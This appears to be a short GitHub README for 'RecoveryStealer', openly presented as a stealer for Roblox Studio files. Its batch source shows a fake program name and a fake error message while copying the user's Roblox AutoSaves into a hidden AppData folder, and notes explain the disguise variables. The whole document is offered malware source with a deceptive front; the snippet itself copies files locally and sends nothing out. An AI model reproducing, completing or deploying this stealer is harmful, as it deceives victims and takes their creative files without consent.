 # RecoveryStealer
Roblox Studio Files Recovery Stealer.
## Requirements 
Windows 10 or higher 
### Source
```batch
@echo off color 0c title %fakename% echo %errorstr% cd %AppData% md AutoSaves%rn% xcopy C:\Users\%user%\Documents\ROBLOX\AutoSaves %AppData%\AutoSaves%rn% timeout /t 2 /nobreak >nul
```
> fakename: variable which is displays program name.\n
> errorstr: variable which is displays error string.\n
> rn: random number.\n
> user: User's name.\n
